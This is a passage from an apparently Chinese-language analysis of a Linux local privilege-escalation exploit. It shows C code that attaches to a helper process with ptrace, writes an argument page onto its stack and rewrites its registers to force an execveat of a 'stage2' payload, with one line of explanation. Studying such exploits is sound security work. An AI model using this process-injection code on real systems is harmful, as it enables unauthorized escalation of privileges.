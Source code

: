 ```c
208    */
209   SAFE(ptrace(PTRACE_ATTACH, midpid, 0, NULL));
210   SAFE(waitpid(midpid, &dummy_status, 0));
211   fputs("attached to midpid\n", stderr);
212 
213   force_exec_and_wait(midpid, 0, "stage2");
214   return 0;

```

接下去回到 task A 的 main 函数， 行 194 ~ 202, task A 检测到 task B 的 binary comm 变成 helper 之后，
运行行 213 执行 force_exec_and_wait

```c
116 static void force_exec_and_wait(pid_t pid, int exec_fd, char *arg0) {
117   struct user_regs_struct regs;
118   struct iovec iov = { .iov_base = &regs, .iov_len = sizeof(regs) };
119   SAFE(ptrace(PTRACE_SYSCALL, pid, 0, NULL));
120   SAFE(waitpid(pid, &dummy_status, 0));
121   SAFE(ptrace(PTRACE_GETREGSET, pid, NT_PRSTATUS, &iov));
122 
123   /* set up indirect arguments */
124   unsigned long scratch_area = (regs.rsp - 0x1000) & ~0xfffUL;
125   struct injected_page {
126     unsigned long argv[2];
127     unsigned long envv[1];
128     char arg0[8];
129     char path[1];
130   } ipage = {
131     .argv = { scratch_area + offsetof(struct injected_page, arg0) }
132   };
133   strcpy(ipage.arg0, arg0);
134   for (int i = 0; i < sizeof(ipage)/sizeof(long); i++) {
135     unsigned long pdata = ((unsigned long *)&ipage)[i];
136     SAFE(ptrace(PTRACE_POKETEXT, pid, scratch_area + i * sizeof(long),
137                 (void*)pdata));
138   }
139 
140   /* execveat(exec_fd, path, argv, envv, flags) */
141   regs.orig_rax = __NR_execveat;
142   regs.rdi = exec_fd;
143   regs.rsi = scratch_area + offsetof(struct injected_page, path);
144   regs.rdx = scratch_area + offsetof(struct injected_page, argv);
145   regs.r10 = scratch_area + offsetof(struct injected_page, envv);
146   regs.r8 = AT_EMPTY_PATH;
147 
148   SAFE(ptrace(PTRACE_SETREGSET, pid, NT_PRSTATUS, &iov));
149   SAFE(ptrace(PTRACE_DETACH, pid, 0, NULL));
150   SAFE(waitpid(pid, &dummy_status, 0));
151 }

```
